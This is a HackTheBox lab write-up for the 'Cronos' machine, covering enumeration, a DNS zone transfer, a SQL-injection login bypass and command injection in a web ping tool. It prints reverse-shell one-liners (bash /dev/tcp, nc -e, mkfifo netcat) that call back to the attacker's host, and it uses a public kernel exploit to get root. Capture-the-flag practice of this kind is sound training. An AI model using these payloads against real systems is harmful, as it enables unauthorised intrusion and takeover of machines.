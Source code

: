 ```yaml
---
layout: post
title:  "HackTheBox - Cronos Writeup"
categories: [HackTheBox]
tags: [pentesting]
draft: true
---
```


# Introduction

This is a writeup for the machine "Cronos" (10.10.10.13) on the platform HackTheBox. HackTheBox is a penetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

Let's start off with our two nmap scans, a full TCP & a full UDP. In this case only our TCP scan returned any results so we're only going to analyse the output of the TCP scan.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-25 23:00 BST
Nmap scan report for 10.10.10.13
Host is up (0.038s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I was initially quite interested in port 80 due to the fact that a lot of the boxes on HackTheBox start with web-exploitation in some way or another, however, DNS being open did stand out quite a lot.

### HTTP 

I first did the typical thing of running a directory enumeration tool, I use dirb for this although as you can see below, we didn't get much back from this at all.

```
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat May 25 23:02:46 2019
URL_BASE: http://10.10.10.13/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612
---- Scanning URL: http://10.10.10.13/ ----
+ http://10.10.10.13/index.html (CODE:200|SIZE:12454)
+ http://10.10.10.13/server-status (CODE:403|SIZE:299)
```

This instantly suggests to us that perhaps this site is unfinished/not properly configured, let's try use Nikto to see if we can find any other interesting information/configuration problems we might be able to leverage.

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.13
+ Target Hostname:    10.10.10.13
+ Target Port:        80
+ Start Time:         2019-05-25 23:03:31 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x30a6 0x555402443a52b 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7499 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2019-05-25 23:08:39 (GMT1) (308 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Like the directory bruteforce, Nikto did not return much for us again, at this point I decided that I would start checking out the DNS side of things as I wasn't getting anywhere fast with the web page enumeration. When visiting the site, we just get an Apache default configuration page so that cements that perhaps this website is unfinished/in-production.

### DNS

As DNS is open, and that is quite uncommon on HackTheBox we're going to add the device to our `/etc/hosts` file and then do some basic DNS enumeration. if you `nano /etc/hosts` and then add `10.10.10.13  cronos.htb` to the hosts file and save, we can then do some DNS enumeration. In this case we could educatedly guess the DNS name quite easily. Now we've done that we can use the `host` command in order to enumerate DNS information such as aliases, etc. 

```
host -l cronos.htb 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 

cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
```

Oh look - `admin.cronos.htb`! Let's add this to our `/etc/hosts` again and then web-browse to the page.

### User Exploitation

Oh look, we've now got a login screen! I tried some basic logins such as `admin/admin` but I didn't get any luck with this so I stopped going down that path of default credentials.

![login page](/assets/images/2019-05-26-Cronos/LoginPage.png)

After failing at the default credential route I decided to go ahead and try some basic SQLi queries to try and bypass the login screen, I ended up going with `admin' or '1'='1` and that seemed to work for me, with the password being anything you want.

![sqli](/assets/images/2019-05-26-Cronos/sqli.png)

This logged us straight in and we come across a web-based command prompt that let's us execute a traceroute or a ping, typically tools like this are very poorly written and the input is typically unsanitised.

I'm first going to try and execute a basic command injection by appending an icmp back to my attacking machine on the end of the existing command. We'll use TCPDump to listen back for this ping, so we use `tcpdump ip proto \\icmp -i tun0` in order to do this and then from the web page we run the following.


![ping](/assets/images/2019-05-26-Cronos/nettool.png)

As you can see in the below tcpdump output, our connection is working, we can also see this in the web-based command panel so that's a good sign. A. we've got connectivity and B. our command injection is working via `&`.

```
tcpdump ip proto \\icmp -i tun0

tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
23:26:10.928326 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 1, length 64
23:26:10.928368 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 1, length 64
23:26:11.923451 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 2, length 64
23:26:11.923461 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 2, length 64
23:26:12.925157 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 3, length 64
23:26:12.925169 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 3, length 64
23:26:13.926582 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 4, length 64
23:26:13.926594 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 4, length 64
```

Now we've got command injection, let's move into exploitation for user. What we're going to do is use a reverse shell in order to get a connection back to our machine. I had to try a few different shells here but I eventually got one that worked. I first tried using `bash -i >& /dev/tcp/10.10.14.12/8080 0>&1` from a nice list of typical reverse shells however it didn't work so then I tried using Netcat with `nc -e /bin/sh 10.10.14.12 8080` however, that didn't work either so I scrolled down to the Netcat section on [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) there is an interesting command/method for still using netcat here with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 8080 >/tmp/f` and this worked. So now we have a user we grab the user flag and then we're going to work on the privilege escalation aspect.

```
Listening on [unknown] (family 0, port 1906660159)
Connection from 10.10.10.13 44088 received!
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
$ 
$ locate user.txt
/home/noulis/user.txt
```

### Privilege Escalation

With every Linux box, I always run LinEnum so the first thing we're going to do is get the script onto the box, this is very easy to do. We will first setup a SimpleHTTPServer with `python -m SimpleHTTPServer 8000`, from here we will use `wget http://10.10.14.12:8000/linenum.sh` on the box in the `/tmp` directory (so we have write permissions). We will then `chmod 777 linenum.sh` and run the script. Once it finishes the first thing we will examine the output.

The very first thing I note from the LinEnum output is the Ubuntu verison & the kernel version, so the kernel is running on `4.4.0-72-generic` and the OS version is `16.04.2` so let's first go to Google and search `4.4.0-72-generic privilege escalation` and the first thing that comes up is a [Local Priv Esc for < 4.4.0-116 on ExploitDB](https://www.exploit-db.com/exploits/44298), let's take a look at this. It doesn't look like it was tested on our exact version of Ubuntu but it should work, so let's grab the exploit, compile it using `gcc -o 44298 44298.c` and then use the SimpleHTTPServer to transfer the file into our `/tmp` directory again, from here will use `chmod` to give it execution permissions and then we will run the script exploit.

```
$ ./44298

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

cat /root/root.txt
```

Oh and look, we got root! That's it! Grab the flag and you're done. Thank you for reading another writeup, this is an OSCP like box so this is great practice for that!
